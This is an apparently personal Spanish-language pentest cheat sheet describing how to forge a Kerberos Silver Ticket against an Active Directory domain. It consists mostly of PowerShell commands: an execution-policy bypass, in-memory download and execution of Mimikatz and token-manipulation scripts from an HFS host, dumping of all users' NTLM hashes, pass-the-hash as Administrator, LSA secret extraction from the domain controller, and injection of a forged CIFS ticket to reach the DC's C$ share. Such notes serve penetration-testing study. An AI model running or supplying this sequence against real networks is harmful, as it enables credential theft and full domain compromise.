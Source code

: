 # Silver Ticket 

Tags: #AD #Windows #Powershell 

Envuelve la creación de un TGS valido para un servicio especifico donde el hash de la contraseña es obtenido. Esto permite un acceso no autorizado al servicio forjando por TGS modificado. Los 'Silver Tickets' tienen un alcance mas pequeño comparado a los 'Golden Tickets', como solo proveer acceso a un recurso especifico en el sistema host y recurso. Los atacantes pueden forjar un 'Silver Ticket' para crear y usar TGS sin interactuar con los KDC.

```powershell 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-Domain                                 # Verificamos el dominio 
❯ Get-DomainSID                              
❯ Find-LocalAdminAccess                      # Descubrir maquinas en el AD donde el user tiene acceso local de Admin
❯ Enter-PSSession <seclogs.domian.local>     # Nos autenticamos a la sesion local via remota en el 'DOMINIO' 
	❯ whoami /priv                          # Miramos si tenemos los priv para elevar los privilegios 

# En la maquina del DC abrimos un 'HFS' para transferir el archivo 'Invoke-TokenMalipulation.ps1' a la sesion remota 
	❯ cd /                                  # Nos dirigimos a la carpeta 'root' de la sesion remota 
	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-TokenMalipulation.ps1')  # Descargamos en la sesion remota el modulo que se encuentra en el DC de la maquina no remota llamado 'Invoke-TokenMalipulation.ps1' por medio del 'HFS' para despues utilizarlo dentro de la misma sesion remota 
	❯ Invoke-TokenManipulation -Enumerate # Enumerara todos los token disponibles, si el 'LogonType = 2' quiere decir que el usuario admin esta loggeado

	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-Mimikatz.ps1')
		❯ Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM de todos los usuarios asi como el del 'Admin'
```

```powershell
# Abrimos una nueva consola de Poweshell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<hash NTLM> /run:powershell.exe"' 
# Hacemos el 'Pass-The-Hash' e ingresamos como el usuario 'Administrator'
```

```powershell 
# El comando anteriro despliega una nueva venta en Powershell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -ComputerName <DomainController> # Muestra info para el 'Silver Ticket'
```

```powershell
# En una nueva Powershell 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas

❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-DomainSID                              # Obtenemos el SID

❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"kerberos::golden /domain:<Domain> /sid:12345 /target:<DomainController> /service:CIFS /rc4:<NTLM_Hash> /user:administrator /ptt"'       # Generamos e inyectamos nuestro 'Silver Ticket' 

❯ ls \\DomainController\C$                   # Verificar si ingresamos al 'Domain Controller'
```